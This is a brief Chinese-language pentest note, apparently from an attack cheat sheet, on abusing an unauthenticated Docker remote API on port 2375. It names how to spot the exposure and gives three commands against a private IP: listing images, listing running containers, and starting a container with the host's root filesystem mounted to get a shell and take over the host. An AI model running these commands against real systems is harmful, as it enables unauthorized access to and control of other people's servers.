 # 2375（docker）

识别点：2375端口，/run/docker.sock，可以看到宿主的容器

外网直接打挂上即可

```bash
docker -H tcp://192.168.52.128:2375 images    --查看容器组
docker -H tcp://192.168.52.128:2375 ps      --查看正在运行的容器
docker -H tcp://192.168.52.128:2375 run --rm -it -v /:/tmp/1/ wordpress /bin/bash
挂载宿主目录
```
